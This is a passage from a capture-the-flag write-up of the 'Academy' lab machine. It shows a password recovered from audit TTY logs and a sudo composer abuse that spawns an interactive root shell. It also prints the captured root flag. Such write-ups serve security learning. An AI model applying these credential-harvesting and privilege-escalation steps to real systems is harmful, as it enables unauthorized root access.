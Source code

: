     :::text
    cry0l1t3@academy:/var/log$ aureport --tty

    TTY Report
    ===============================================
    # date time event auid term sess comm data
    ===============================================
    Error opening config file (Permission denied)
    NOTE - using built-in logs: /var/log/audit/audit.log
    1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
    2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
    3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>

## Composer

We switch user `su` to our new `mrb3n` user and list our sudo persmission. We
have sudo access to `composer`.

    :::text
    cry0l1t3@academy:/var/log$ su mrb3n
    Password:
    $ bash
    mrb3n@academy:/home$ id
    uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
    mrb3n@academy:/home$ sudo -l
    [sudo] password for mrb3n:
    Matching Defaults entries for mrb3n on academy:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User mrb3n may run the following commands on academy:
        (ALL) /usr/bin/composer

Using [gtfobins](https://gtfobins.github.io/gtfobins/composer/) we quickly
obtain a root shell and the root flag.

    :::text
    mrb3n@academy:/home$ TF=$(mktemp -d)
    mrb3n@academy:/home$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
    mrb3n@academy:/home$ sudo composer --working-dir=$TF run-script x
    PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
    PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
    Do not run Composer as root/super user! See https://getcomposer.org/root for details
    > /bin/sh -i 0<&3 1>&3 2>&3
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    c54ee4bf2a048550483176f6cb528d95

# Wrapping up

An easy machine mostly based on public exploit and enumeration. I will recommand
it to begginers.

